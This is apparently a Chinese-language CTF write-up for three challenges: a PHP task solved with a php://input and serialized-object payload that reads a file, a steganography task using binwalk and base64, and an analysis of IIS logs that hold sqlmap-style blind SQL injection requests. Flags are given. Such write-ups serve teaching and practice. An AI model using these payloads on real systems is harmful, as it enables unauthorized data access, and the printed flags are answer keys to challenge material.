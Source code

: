 # the user is admin

和 bugku 平台某个题目原理相似，因此没有保留源码。可以参考 [该题](https://findneo.github.io/180406BugkuWriteup/#welcome-to-bugkuctf) ，不赘述。

```php
/web/theuserisadmin/?file=class.php&user=php://input&pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}

post:the user is admin
    
//flag{078d8dd8023d5716a11780adf344dfd2}
```

# ccgs

![1537109403700](1537109403700.png)

```python
binwalk -e sgcc.png
cat secret.txt | base64 -d | base64 -d > final.png
```

![1537070199581](1537070199581.png)

# 注入日志分析

给了一个日志文件，`file data.log`得到是一个文本文件，直接打开，前几行是

```
#Software: Microsoft Internet Information Services 6.0
#Version: 1.0
#Date: 2015-10-21 09:16:34
```

猜测是IIS服务器记录的流量日志， 分析前几行

```
2015-10-21 09:16:34 W3SVC1 192.168.1.135 GET /index.htm - 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 200 0 0
2015-10-21 09:16:34 W3SVC1 192.168.1.135 GET /favicon.ico - 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 404 0 2
2015-10-21 09:16:36 W3SVC1 192.168.1.135 GET /show.asp id=2 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 200 0 0
2015-10-21 09:25:01 W3SVC1 192.168.1.135 GET /show.asp id=2%27|17|80040e14|字符串_''_之前有未闭合的引号。 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 500 0 0
```

可以看到就是一条条的HTTP请求，并且后面跟着状态码。继续浏览，看到`id`字段出现一些`SQL`的关键字，那么可以想到这记录的就是`sqlmap`(或许)的注入流量分析。思路就是找到关键的注入请求，文件很大，我们可以搜索`flag`试试，找到关键的请求如下

```
...
2015-10-21 09:32:35 W3SVC1 192.168.1.135 GET /show.asp id=2%20AND%20UNICODE%28SUBSTRING%28%28SELECT%20ISNULL%28CAST%28LTRIM%28STR%28COUNT%28DISTINCT%28theflag%29%29%29%29%20AS%20NVARCHAR%284000%29%29%2CCHAR%2832%29%29%20FROM%20tourdata.dbo.news%29%2C1%2C1%29%29%3E51|18|800a0bcd|BOF_或_EOF_中有一个是“真”，或者当前的记录已被删除，所需的操作要求一个当前的记录。 80 - 192.168.1.101 Mozilla/5.0+(Windows;+U;+Windows+NT+6.0;+en-US;+rv:1.9.1b4)+Gecko/20090423+Firefox/3.5b4+GTB5+(.NET+CLR+3.5.30729) 500 0 0
2015-10-21 09:32:35 W3SVC1 192.168.1.135 GET /show.asp id=2%20AND%20UNICODE%28SUBSTRING%28%28SELECT%20ISNULL%28CAST%28LTRIM%28STR%28COUNT%28DISTINCT%28theflag%29%29%29%29%20AS%20NVARCHAR%284000%29%29%2CCHAR%2832%29%29%20FROM%20tourdata.dbo.news%29%2C1%2C1%29%29%3E48 80 - 192.168.1.101 Mozilla/5.0+(Windows;+U;+Windows+NT+6.0;+en-US;+rv:1.9.1b4)+Gecko/20090423+Firefox/3.5b4+GTB5+(.NET+CLR+3.5.30729) 200 0 0
...
```
